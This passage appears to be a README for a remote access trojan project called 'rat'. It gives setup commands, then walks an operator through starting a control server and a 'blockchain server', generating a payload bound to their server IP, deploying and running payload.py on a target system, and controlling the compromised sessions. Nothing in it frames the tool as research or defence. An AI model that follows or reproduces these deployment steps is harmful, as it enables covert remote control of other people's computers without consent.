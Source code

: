 ## Installation

### Prerequisites

```bash
# Python 3.7 or higher
python3 --version

# Required packages
pip3 install pillow  # For screenshot functionality
```

### Setup

```bash
# Clone the repository
git clone https://github.com/workspacehome0/rat.git
cd rat

# Make scripts executable
chmod +x *.py
```

## Usage

### Quick Start

1. **Start All Services**:
   ```bash
   python3 rat_control.py
   ```
   This starts both the blockchain server and RAT server.

2. **Generate Payload**:
   - Click "Generate Payload" in the GUI
   - Enter your server IP address
   - Choose output location
   - Deploy payload to target system

3. **Execute Payload on Target**:
   ```bash
   # On target system
   python3 payload.py
   ```

4. **Control Target**:
   - View connected sessions in the GUI
   - Select a session to interact
   - Use command buttons or terminal

### Manual Start

#### Start Blockchain Server
```bash
python3 blockchain_server.py --host 0.0.0.0 --port 5444
```
